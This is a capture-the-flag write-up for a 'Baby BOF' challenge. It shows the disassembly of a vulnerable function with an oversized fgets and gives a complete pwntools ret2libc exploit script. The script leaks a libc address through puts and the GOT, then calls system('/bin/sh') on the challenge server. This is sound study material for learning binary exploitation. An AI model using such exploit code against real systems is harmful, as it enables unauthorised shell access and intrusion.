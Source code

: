 ### Baby BOF

Baby BOF was normal return to libc attack, since the dockerfile is provided with the challenge which showed that the binary is running in the Ubuntu 20.04 container, hinting that the libc here used is LIBC 2.31, checking the vuln function:-

```asm

gef➤  disas vuln 
Dump of assembler code for function vuln:
   0x00000000004005b7 <+0>:    push   rbp
   0x00000000004005b8 <+1>:    mov    rbp,rsp
   0x00000000004005bb <+4>:    sub    rsp,0x10
   0x00000000004005bf <+8>:    lea    rdi,[rip+0xde]        # 0x4006a4
   0x00000000004005c6 <+15>:    call   0x4004a0 <puts@plt>
   0x00000000004005cb <+20>:    mov    rdx,QWORD PTR [rip+0x200a6e]        # 0x601040 <stdin@@GLIBC_2.2.5>
   0x00000000004005d2 <+27>:    lea    rax,[rbp-0xa]
   0x00000000004005d6 <+31>:    mov    esi,0x100
   0x00000000004005db <+36>:    mov    rdi,rax
   0x00000000004005de <+39>:    call   0x4004c0 <fgets@plt>
   0x00000000004005e3 <+44>:    lea    rdi,[rip+0xcb]        # 0x4006b5
   0x00000000004005ea <+51>:    call   0x4004a0 <puts@plt>
   0x00000000004005ef <+56>:    nop
   0x00000000004005f0 <+57>:    leave  
   0x00000000004005f1 <+58>:    ret    
```
Again, the fgets function call is vulnerable here, we can see that the buffer is of size 0xa while the size acceptable was 0x100 making it vulnerable to buffer overflow.
Now, for the ret2libc part, I would recommend you to start reading here.

The process is exact same, leak the GOT address of the puts and call main again and call system("/bin/sh"):-

```py

from pwn import *

p = remote("dctf-chall-baby-bof.westeurope.azurecontainer.io", 7481)

elf = ELF("baby_bof")
libc= elf.libc

payload = b"A"*18
payload += p64(0x0000000000400683)
payload += p64(elf.got['alarm'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main'])

p.recvline()
p.sendline(payload)

p.recvline()
libc.address = u64(p.recv(6).ljust(8, b"\x00")) - libc.symbols['alarm']
print(hex(libc.address))
payload = b"A"*18
payload += p64(0x000000000040048e)
payload += p64(0x0000000000400683)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.symbols['system'])


p.sendline(payload)
p.interactive()
```

